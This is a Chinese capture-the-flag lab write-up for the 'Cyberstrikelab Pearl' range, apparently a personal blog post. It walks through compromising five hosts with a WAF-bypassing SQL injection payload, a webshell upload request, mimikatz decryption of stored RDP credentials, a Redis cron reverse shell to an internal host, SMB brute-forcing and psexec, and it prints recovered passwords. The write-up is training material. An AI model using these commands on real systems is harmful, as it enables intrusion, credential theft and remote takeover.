# Cyberstrikelab Pearl Writeup


Cyberstrikelab Pearl Writeup


# 第一台主机

**192.168.10.65/172.32.50.22**
**信息收集** 
对 `192.168.10.*` 网段进行扫描，发现 `10.65` 搭建了 `lmxcms`


发现后台



## 前台 SQL 注入

lxmcms 前台存在 SQL 注入漏洞，Payload
```
/?m=Tags&name='1 and updatexml(0,concat(0x7e,user()),1)#
```

不过有安全狗


编码两次绕过
```
/?m=Tags&name=%25%33%31%25%32%37%25%36%31%25%36%45%25%36%34%25%32%30%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%44%25%36%43%25%32%38%25%33%30%25%32%43%25%36%33%25%36%46%25%36%45%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%43%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%43%25%33%31%25%32%39%25%32%33
```

但前面其实尝试弱口令就直接成功了，SQL注入就不往下测，`lxmcms` 框架的用户表在 `lmx_user` 中 

弱口令登录
```
admin/admin123
```



## 文件上传

lmxcms 后台还存在任意文件读取及上传，`BypassGodzilla` 生成木马并上传，成功
```
POST /admin.php?m=template&a=editfile&dir=../ HTTP/1.1
Host: 192.168.10.65
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.10.65/admin.php?m=login&a=login
Connection: keep-alive
Cookie: PHPSESSID=rduiirbr0tici1ik9mqlbg87b6
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 6670

settemcontent=1&filename=a1.php&temcontent=payload_urlencode
```


哥斯拉连接


`tasklist /svc` 查看进程，果然是安全狗


掩日免杀上线 CS，再利用烂土豆提权至 SYSTEM


拿到 Flag


写入 Hacker 用户登录远程桌面，卸载安全狗



# 第二台主机

**192.168.10.42**
这台机器只有一个 MySQL，最开始打不进去，跟着 WriteUp 试了弱口令，也进不去，向官方请教了提示



是 cve，好像有戏了
## MYSQL 身份认证绕过
```
CVE-2012-2122
当连接 MariaDB/MySQL 时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp() 返回一个非零值，也会使 MySQL 认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入 SQL 数据库漏洞编号
影响范围: 所有的Mariadb和mysql版本 5.1.61、5.0.11、5.3.5、5.5.22
修复建议：升级至 MySQL 5.1.63, 5.5.24, 5.6.6
```

查询 MYSQL 版本


MSF 漏洞探测成功，返回了 `root` 的密码 `hash`
```
root:*EF27403ED856431514CDD22192ED742D2D18167A
```


hash 解不开，直接利用命令行弹不回来，又卡住... 暂时理智放弃



# 第三台主机

**172.32.50.33/10.0.0.65**
## RDP 远程桌面凭证获取
在 `192.168.10.65/172.32.50.33` 主机 C 盘底下发现了 `.rdp` 远程桌面配置文件，远程 IP 为 `172.32.50.33`，是该网段的另一台内网主机，尝试直接连接，显示需要密码。
通过服务登录远程桌面时，会在本地生成一个凭证文件，破解这个凭证里面的数据可以获得里面的明文密码


查看本地用户是否存有RDP密码文件
```
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*

dir /a C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\
dir /a C:\Users\Administrator\AppData\Local\Microsoft\Credentials\
//一般存储的位置就是这两个路径
```


工具选用 `mimikatz`，对凭证文件进行解密，并记录下`guidMasterKey`的值  
```
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Credentials\F7A11901B817E047275D06BDB5BAF712" exit
```


根据`guidMasterKey`，找到对应的 `Masterkey`
```
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit > 1.txt
```


通过 `MasterKey`，解密 `pbData` 数据，获取 `RDP` 连接明文密码
```
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Credentials\F7A11901B817E047275D06BDB5BAF712 /masterkey:d66ec675b7789d8c929b9d887b63b8cdcdb0607b0ef6af226865964125c83e31608db9a7495a126ed80f04f854a4ff3c1393da53fe64e1080b2b10e2d933ee38" exit
```


```
UserName       : WIN-BVAJO3C2D90\Administrator
CredentialBlob : Lmxcms@cslab!
```

利用 C 盘下的远程连接免密登录 `172.32.50.33`
这里有个坑点：我先通过攻击机远程登录 `192.168.10.65` Hacker 自建用户，然后通过凭证在攻击机的远程桌面登录 `WIN-BVAJO3C2D90\Administrator` ，再在第二个远程里点击 C 盘下的远程连接，发现仍然需要提供密码
正确的步骤是通过凭证直接远程桌面登录 `WIN-BVAJO3C2D90\Administrator`，再连接就是免密登录
可能是因为 Win 默认只允许一个远程桌面存在？


拿到第三台主机 `Flag`


关闭 `Defender`


`172.32.50.33`主机内网存在另一张网卡 `10.0.0.65`，使用 `Stowaway` 或 `iox` 等工具搭建内网隧道，`fscan` 扫描

扫描结果显示 10.0.0.56:6379 端口开放，存在未授权访问，密码为 `admin123`，且对 `/var/spool/cron` 目录拥有写入权限，这是一个用于存储定时计划任务文件的目录


# 第四台主机

**10.0.0.56**
## Redis 计划任务反弹 Shell
使用代理连接，`info` 看看信息，查到了系统版本


```
config set dir /var/spool/cron/
config set dbfilename root
set shell "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/10.0.0.65/30001 0>&1\n\n"
save
```


上传 `nc` 监听，等待


成功接收到了反弹 `shell`，权限为 `root`，拿到第四台主机 `Flag` 


查看网卡，这是一台单网卡主机，没有更深的内网了，返回了返回了


## 主从复制
[https://github.com/0671/RabR](https://github.com/0671/RabR)
Redis 的另一种打法，在 `10.0.0.65` 主机安装 `python` ，上传 `RabR`，该 `exp` 不需要任何外部库
```
python redis-attack.py -r 10.0.0.56 -L 10.0.0.65 -b
```



# 第五台主机

**10.0.0.23**
`fscan` 扫描


这台主机没有 Web 服务，没有暴露出的漏洞，读一下本地凭证文件，发现有


那就再破解一遍
```
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Credentials\E8B27029CEB02525493CC6576845F257" exit

mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit > 1.txt

mimikatz.exe "dpapi::cred /in:C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Credentials\E8B27029CEB02525493CC6576845F257 /masterkey:24938860521d5396a1b71f08ac643319589c94044e9cf1fcb24c9199fc9c5b354fc1072338f76076c1a005ff15b029ddb75d7f6f2625d5bb4ee7417a9212bcff"

UserName       : WIN-QVNDHCLPR7Q\Administrator
CredentialBlob : cyberstrike@2024
```

远程登录但 `10.0.0.23` 压根没开放 3389，本地登录也显示凭据无效.


## SMB 爆破

提示是 `密码qwe开头`，爆破密码


`rockyou` 没有爆破出来密码

```
proxychains4 -q hydra -l Administrator -P passwords.txt smb://10.0.0.23 -V
```


最后参考别的师傅 WriteUp，找了其他弱口令字典爆破


远程连接
```
proxychains4 -q python3 psexec.py 'administrator:qwe!@#123@10.0.0.23' -codec gbk
```


最后的 `FLag`



---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/cslab-pearl/  

